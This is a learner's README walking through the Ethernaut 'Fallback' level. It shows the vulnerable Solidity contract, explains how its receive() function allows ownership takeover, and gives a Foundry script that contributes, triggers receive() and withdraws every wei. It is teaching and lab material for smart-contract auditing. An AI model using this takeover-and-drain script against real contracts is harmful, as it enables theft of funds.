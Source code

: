 # Ethernaut Level: Fallback - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Fallback** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/fallback/`) contains everything related to it.

**Goal:** Become the owner of the contract and withdraw all the Ether from it.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 19, 2025 (Day 3).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract simulates a "King of the Hill" game where users contribute ETH to become the owner. The owner starts with a virtual 1000 ETH contribution. Users can contribute small amounts (< 0.001 ETH) via `contribute()`, and if their total exceeds the current owner's, they take ownership. There's also a `receive()` function that triggers on direct ETH sends, allowing ownership change if the sender has contributed before. The owner can withdraw all funds via `withdraw()`.

**Key Code Snippet (from src/Fallback.sol):**
```solidity
contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## Vulnerability Analysis
**Main Issue: Unprotected Fallback Function (Receive Hook Exploitation)**  
- The `receive()` function allows direct ETH transfers to change ownership without calling `contribute()`, as long as the sender has a prior contribution >0. This bypasses the <0.001 ETH limit in `contribute()`, enabling ownership takeover with a small send after initial contribution.  
- **Security Impact:** In audits, unchecked fallback/receive functions can lead to unauthorized state changes or reentrancy. Here, it allows draining funds by becoming owner illicitly. This teaches the dangers of payable fallbacks without proper guards.  
- **Audit Tip:** Always scrutinize payable functions for unintended triggers (e.g., via `call{value: }("")`). Use checks-effects-interactions pattern and limit fallback usage; prefer explicit functions for ETH handling.

**Example:** After contributing 0.0001 ETH (to set contributions >0), sending another 0.0001 ETH directly triggers `receive()`, setting owner without exceeding the contribute limit.

## Solution Steps
The attack: First, contribute a tiny amount to establish a contribution >0. Then, send ETH directly to trigger `receive()` and become owner (bypassing contribute's value limit). Finally, withdraw the balance.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/FallbackSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check new owner and empty balance, submit on Ethernaut site.

**Key Attack Code Snippet (from script/FallbackSolution.s.sol):**
```solidity
contract FallbackSolution is Script {
    Fallback public fallbackInstance = Fallback(payable(<contractAddressHere>));

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallbackInstance.contribute{value: 0.0001 ether}();  // Establish contribution >0
        
        (bool success,) = address(fallbackInstance).call{value: 0.0001 ether}("");  // Trigger receive()
        require(success, "Fallback call failed");

        console.log("Owner:", fallbackInstance.owner());
        console.log("Address:", vm.envAddress("MY_ADDRESS"));

        fallbackInstance.withdraw();  // Drain funds as new owner
        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates contribution, receive trigger, ownership change, and withdrawal.
- **Testnet Output Example:** Console log: `Owner: 0xYourAddress` (matches MY_ADDRESS). Balance transferred successfully.

## Key Learnings
- **Auditing Skill:** Review all payable entry points (constructor, functions, fallback/receive) for ownership or fund risks—tools like Slither can detect unsafe receives.
- **EVM Concept:** `receive()` triggers on direct ETH sends without data; use low-level `call{value: }("")` to invoke it. Contributions are in wei, so small values suffice.
- **Prevention:** Add reentrancy guards (e.g., OpenZeppelin's ReentrancyGuard) and explicit checks in fallbacks. Limit ownership changes to trusted mechanisms.
- **Next Step:** Modify the script to check contract balance before/after withdrawal for verification.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/fallback`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/FallbackSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! 
Next level: `Fallout`. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)